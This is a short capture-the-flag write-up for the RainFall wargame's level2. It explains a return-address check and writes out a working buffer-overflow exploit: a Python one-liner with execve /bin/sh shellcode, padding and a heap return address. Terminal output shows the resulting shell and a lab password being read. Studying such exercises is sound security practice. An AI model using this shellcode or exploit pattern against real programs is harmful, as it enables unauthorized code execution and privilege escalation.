 This checks if a value (probably a return address) is in memory region 0xb0000000. Why?

0xb0000000 is often where heap or mmap memory lives (like strdup() or injected shellcode).

So this is like: “only run this code if the return address or a pointer is in a valid shellcode region.”


https://shell-storm.org/shellcode/index.html

level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A"*59 + "\x08\xa0\x04\x08"' > /tmp/exploit
level2@RainFall:~$ /tmp/exploit | ./level2 
level2@RainFall:~$ cat /tmp/exploit | ./level2 
j
 X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
level2@RainFall:~$ cat /tmp/exploit - | ./level2 
j
 X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
whoami
level3
cat /home/user/level3/.pass      
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02